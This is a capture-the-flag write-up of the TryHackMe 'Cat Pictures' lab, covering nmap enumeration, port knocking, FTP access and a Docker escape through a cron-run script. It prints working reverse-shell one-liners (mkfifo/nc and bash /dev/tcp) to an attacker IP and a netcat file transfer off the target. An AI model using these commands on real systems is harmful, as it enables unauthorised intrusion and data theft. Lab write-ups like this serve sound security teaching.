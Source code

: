 ```yaml
---
title: "TryHackMe - Cat Pictures"
author: Nasrallah
description: ""
date: 2022-11-17 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, docker, knocking, cronjob, ftp, reverse-shell]
img_path: /assets/img/tryhackme/catpictures
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Cat Pictures](https://tryhackme.com/room/catpictures) from [TryHackMe](https://tryhackme.com). In this machine, we get to use a technique called `port knocking` that would make a port open automatically. We find a password of one service in the ports we open and use it to get foothold. Then we exploit a cronjob to escape a docker container.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.46.77
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
Nmap scan report for 10.10.187.26                                             
Host is up (0.081s latency).                                                  
                                                                              
PORT     STATE    SERVICE      VERSION                                        
21/tcp   filtered ftp                                                         
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                
|   2048 37436480d35a746281b7806b1a23d84a (RSA)                           
|   256 53c682efd27733efc13d9c1513540eb2 (ECDSA)                          
|_  256 ba97c323d4f2cc082ce12b3006189541 (ED25519)                        
4420/tcp open     nvm-express?                                                
| fingerprint-strings:                                                        
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest:  
|     INTERNAL SHELL SERVICE                                                  
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c                                                                  
|     Please enter password:                                                  
|     Invalid password...                                                     
|     Connection Closed                                                       
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE                                                                                                                                 
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:         

8080/tcp open     http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found 3 open ports, 22 running OpenSSH and 8080 running Apache http web server. We also found port 21 filtered which is the default port for ftp.

### Web

Let's go to the web page.

![](1.png)

The web server uses `phpbb` which is a free and open source forum software.

We can find one post that hints for a technique.

![](2.png)

### Port knocking

Port-knocking the a obfuscation-as-security technique. It basically means that after knocking on ports in a specific sequence a certain port will open automatically.

We can do that using `knock`, if you don't have it, install it with `apt install knockd`.

![](3.png)

After running it a couple of times, port 21 should be open. Let's connect to it as anonymous.

![](4.png)

We managed to connect to the ftp server and find a note.

The note contains the password of port 4420, let's connect to that port with `nc 10.10.10.10. 4420`

![](5.png)

We got a shell

## **Foothold**

I setup a listener and run the following command to get a reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9000 >/tmp/f
```

![](6.png)

After checking the home directory, we find an executable inside `catlover`'s home directory, when we run it, we get prompt for a password.

```terminal
I have no name!@cat-pictures:/home/catlover# ./runme 
./runme
Please enter yout password: password
Access Denied
I have no name!@cat-pictures:/home/catlover#
```

I tried the previous password but didn't work. Let's copy the file to our machine using netcat.

```terminal
┌──(sirius㉿kali)-[~/CTF/THM/catpics]
└─$ nc -lvnp 1234 > runme 
```

```terminal
I have no name!@cat-pictures:/home/catlover# nc 10.10.10.10 1234 < ./runme

```

We check the file for human readable characters with `strings`, and we find the password.

![](7.png)

Let's run the file again.

```terminal
I have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
I have no name!@cat-pictures:/home/catlover#
```

After a bit, we see an ssh private key in catlover's home directory.

![](8.png)

Let's copy that to our machine, give it the right permissions and connect with it.

![](9.png)

## **Privilege Escalation**

We can clearly see that we're in a docker container because of the name of the host and the docker file in root directory.

![](10.png)

Checking the different file on the system we come across a potential vector for escaping the docker container.

![](11.png)

The `clean.sh` file might be a cronjob running outside the container, so let's test it by adding the following reverse shell to it and setting up a listener.

```bash
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

![](12.png)

Great! We got a shell as root, couldn't been better.


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html